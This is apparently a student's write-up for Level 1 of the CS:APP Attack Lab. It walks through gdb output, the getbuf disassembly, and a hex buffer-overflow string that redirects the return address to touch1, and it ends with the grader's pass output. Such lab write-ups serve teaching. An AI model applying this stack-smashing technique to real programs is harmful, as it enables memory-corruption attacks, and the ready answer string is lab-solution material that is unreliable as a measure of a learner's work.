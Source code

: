 # CS:APP Attacklab Writeup
## Level 1
Run the program with argument `-q` to prevent it from connecting to the server.

Break at the entry of `test`, and `x/w $rsp`.

```
(gdb) x/w $rsp
0x5561dca0:	0x00401976
```
We can see the address of the top of the stack, and the return location (0x00401976).

Continue to read the code of `getbuf`:
```
00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp
  4017ac:	48 89 e7             	mov    %rsp,%rdi
  4017af:	e8 8c 02 00 00       	call   401a40 <Gets>
  4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
  4017b9:	48 83 c4 28          	add    $0x28,%rsp
  4017bd:	c3                   	ret
  4017be:	90                   	nop
  4017bf:	90                   	nop
```
After changing the position of %rsp:
```
(gdb) x/w $rsp
0x5561dc78:	0
```
We just need to create a string that overlapped the original return address to `touch1`:
at address `4017c0`.

Therefore, we can devise the following attack string (in hex):
```
11 45 14 11 45 14
11 45 14 11 45 14
11 45 14 11 45 14
11 45 14 11 45 14
11 45 14 11 45 14
11 45 14 11 45 14
11 11 11 11
C0 17 40
```
```
Type string:Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:1:11 45 14 11 45 14 11 45 14 11 45 14 11 45 14 11 45 14 11 45 14 11 45 14 11 45 14 11 45 14 11 45 14 11 45 14 11 11 11 11 C0 17 40 
```
